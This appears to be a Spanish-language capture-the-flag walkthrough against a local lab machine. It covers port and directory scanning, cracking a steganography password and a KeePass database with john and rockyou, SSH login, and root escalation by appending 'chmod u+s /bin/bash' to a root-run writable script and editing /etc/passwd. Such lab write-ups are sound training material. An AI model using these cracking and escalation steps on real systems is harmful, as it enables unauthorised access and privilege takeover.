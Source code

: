 # Enumeracion de PUertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 3000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 22:36 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
|_  256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

comienzo chequeando el servicio web


![image](https://github.com/user-attachments/assets/116b6adb-c068-4aea-aaa0-63a38256c7fb)

me consigo con la plantilla de apache por lo que fuzzeare la web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -s 200,301,302 -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 5
```
```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 301, 302]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 5
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       22l      105w     5952c http://172.17.0.2/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://172.17.0.2/
200      GET      363l      961w    10671c http://172.17.0.2/index.html
200      GET      828l     4687w   413979c http://172.17.0.2/penguin.jpg
200      GET       13l       31w      342c http://172.17.0.2/penguin.html
[#####>--------------] - 78s   684343/2491620 3m      found:5       errors:616    
[#####>--------------] - 78s   686448/2491548 8851/s  http://172.17.0.2/  
```

solo observo una imagen asi que me la descargo

```ruby
wget http://172.17.0.2/penguin.jpg
```

ahora cheque si esta ocultando algun archivo por esteganografia

```ruby
steghide --info penguin.jpg
```

![image](https://github.com/user-attachments/assets/433ce75a-d8c6-4d73-a3b9-ebca8556b036)

solicita una password para extraer asi que le paso `stegseek`

```ruby
stegseek penguin.jpg --wordlist /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/7db048ba-2ad1-4a90-8481-984be840159b)

extrae un archivo llamado `penguin.jpg.out` que si lo examino

![image](https://github.com/user-attachments/assets/4b9d4163-81e8-4546-9e63-801d0e49a00d)

resulta ser un archivo `KDBX` por lo que le cambio la extension por la correcta y lo abro con `KeePass2`

```ruby
mv penguin.jpg.out penguin.kdbx
```

lo abro con `KeePass2`

![image](https://github.com/user-attachments/assets/d6f3f6ec-20e9-494d-9e6b-b1574d2c4c50)

solicita password por lo que intentare crackearla

extraigo y guardo el hash 
```ruby
keepass2john penguin.kdbx > hashkeepass
```
se lo paso a `john`

```ruby
john --wordlist=/usr/share/wordlists/rockyou.txt hashkeepass
```
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (penguin)     
1g 0:00:00:00 DONE (2024-11-24 22:53) 7.142g/s 228.5p/s 228.5c/s 228.5C/s 123456..anthony
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

obtengo la password asi que procedo abrir el archivo en `KeePass2`

![image](https://github.com/user-attachments/assets/56a91ec6-0f69-43f6-be62-5f0d3f7b335d)

extraemos las credenciales para probarlas por `ssh`

![image](https://github.com/user-attachments/assets/f140db99-66b3-4ef0-8e2b-a7d29cdbafaa)

logramos el acceso

# Escalada de Privilegios

### penguin

En el directorio del user actual se encuentran 2 archivos, un script y un archivo de texto, tras chequear el escript, su tarea es escribir el `archivo.txt` = `pinguino no hackeable`,
si reviso los permisos del script, todos los grupos y usuarios tiene todos los permisos sobre el, es decir, cualquiera puede modificarlo y por otro lado si reviso los procesos,
el script esta siendo ejecutado por `root` por lo que para escalar solo debo agregarle una linea mas de codigo al script:

```bash
echo 'chmod u+s /bin/bash' >> script.sh
```

![image](https://github.com/user-attachments/assets/a2c33e45-c113-4753-84b2-4ec988b59f42)


por ultimo modifico el archivo `/etc/passwor` para eliminar la `x` que contiene la linea de `root` para escalar adecuadamente

![image](https://github.com/user-attachments/assets/c2a1feba-4706-4976-805c-ffeae556b7b3)

### `ROOT`











